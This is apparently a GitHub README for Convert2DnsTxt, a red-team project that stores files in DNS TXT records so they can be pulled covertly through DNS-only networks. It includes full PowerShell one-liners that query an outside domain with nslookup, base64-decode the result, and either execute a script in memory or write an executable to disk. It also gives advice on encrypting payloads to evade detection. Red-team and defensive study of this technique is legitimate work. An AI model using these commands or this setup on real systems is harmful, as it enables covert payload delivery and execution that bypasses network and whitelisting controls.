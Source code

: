 <h1>Convert2DnsTxt</h1>
Convert2DnsTxt is a simple project to illustrate how DNS TXT records could be used to host files.  This could be used to somewhat covertly retrieve files even if the environment only allowed DNS traffic to trusted servers, thanks to recursive queries.  When I've implemented similar things on red team operations, I usually purchase a cheap domain, create an A record and NS record to point a subdomain at a VPS that redirects traffic on UDP 53 to a server I have hosted locally with Bind installed.  With that setup, I can access tools I have hosted in TXT records from practically anywhere just by using nslookup -q=txt.  Similar setups can be used to perform C2 over DNS, but I prefer to use A records and CNAMES to remain a little more covert.
<br>
<h2>Scripts</h2>
<ul>
   <li><b>install_bind9.sh</b>
      <ul><br>
         <li><b>Usage:</b> sudo ./install_bind9.sh [domain] [IP]</li>
         <li><b>Example:</b> sudo ./install_bind9.sh txt.pwntheinter.net 192.168.1.1</li>
         <li>This script installs Bind9 and configures it for your domain.  It will accept a subdomain and IP as parameters.  If no parameters are passed it will prompt for a domain to use and use the IP of the first network interface from the results of ifconfig.  This was written and tested on Ubuntu.</li>
      </ul><br>
   </li>
   <li><b>Convert2DnsTxt.py</b>
      <ul><br>
         <li><b>Usage:</b> sudo ./Convert2DnsTxt.py</li>
         <li>This script will prompt for a file to convert, a DNS TXT record to use, a file location to write the results to, and ask whether or not you would like to restart Bind.  The intended use of this script is give it a file to convert, which will be broken up into multiple TXT records of the same name, if necessary, write it to your domain's zone file, and restart Bind so the changes take effect.  This way, you can quickly add files to TXT records as needed.
         </li>
      </ul>
   </li>
</ul>
<h2>Examples of DNS TXT Usage</h2>
I have a PowerShell script and a "Hello World" executable hosted at txt.pwntheinter.net for testing purposes.  There are a number of ways to retrieve these but the following commands are just a couple of PowerShell examples to illustrate a couple methods:
<ul>
   <li>PowerShell command to download and execute Invoke-ProcessFromParent
      <ul><br>
         <li>.([scriptblock]::Create([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((((nslookup -q=txt ipfp.txt.pwntheinter.net) | Sort-Object | where { $_.startswith([char]9) }) -join "" -replace '\t"\d{1,}.|"', '')))))</li>
      </ul><br>
   </li>
   <li>PowerShell command to download and write hello.exe to the current working directory
      <ul><br>
         <li>[IO.File]::WriteAllBytes("hello.exe", [Convert]::FromBase64String((((nslookup -q=txt hello.txt.pwntheinter.net) | Sort-Object | where { $_.startswith([char]9) }) -join "" -replace '\t"\d{1,}.|"', '')))
         </li>
      </ul>
   </li>
</ul>
<h2>Limitations</h2>
I haven't done exhaustive testing but I have discovered issues arise if there are more than 240 TXT records of the same name.  In such cases, I wouldn't get back any results via nslookup, which is the primary way I was resolving names as I test in a restricted environment with somewhat strict application whitelisting enabled.  You can have 255 characters per TXT record so 240 x 255 = 61,200 characters.  In the example script the file is base64 encoded and prepended with "###." to make sorting easier.  In a real operation, you would want to encrypt then encode the script while decoding, decrypting, and then sorting on the target to better obfuscate what you have hosted.  There is also nothing stopping you from spreading the file over multiple TXT records of different names.

